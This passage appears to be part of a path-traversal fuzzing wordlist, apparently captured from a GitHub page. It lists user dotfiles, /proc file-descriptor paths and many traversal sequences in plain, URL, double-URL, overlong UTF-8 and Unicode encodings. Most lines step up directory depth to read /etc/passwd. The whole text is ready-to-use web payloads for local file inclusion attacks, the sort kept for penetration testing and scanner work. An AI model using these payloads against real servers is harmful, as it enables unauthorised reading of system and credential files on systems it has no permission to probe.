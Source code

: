 ~/.viminfo
~/.wm_style
~/.Xdefaults
~/.xinitrc
~/.Xresources
~/.xsession
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
/proc/<int>/fd/<int>
e.g.
/proc/2116/fd/11
..//etc/passwd
../..//etc/passwd
../../..//etc/passwd
../../../..//etc/passwd
../../../../..//etc/passwd
../../../../../..//etc/passwd
../../../../../../..//etc/passwd
../../../../../../../..//etc/passwd
..%2f/etc/passwd
..%2f..%2f/etc/passwd
..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
%2e%2e//etc/passwd
%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e//etc/passwd
%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
..%252f/etc/passwd
..%252f..%252f/etc/passwd
..%252f..%252f..%252f/etc/passwd
..%252f..%252f..%252f..%252f/etc/passwd
..%252f..%252f..%252f..%252f..%252f/etc/passwd
..%252f..%252f..%252f..%252f..%252f..%252f/etc/passwd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f/etc/passwd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f/etc/passwd
%252e%252e//etc/passwd
%252e%252e/%252e%252e//etc/passwd
%252e%252e/%252e%252e/%252e%252e//etc/passwd
%252e%252e/%252e%252e/%252e%252e/%252e%252e//etc/passwd
%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e//etc/passwd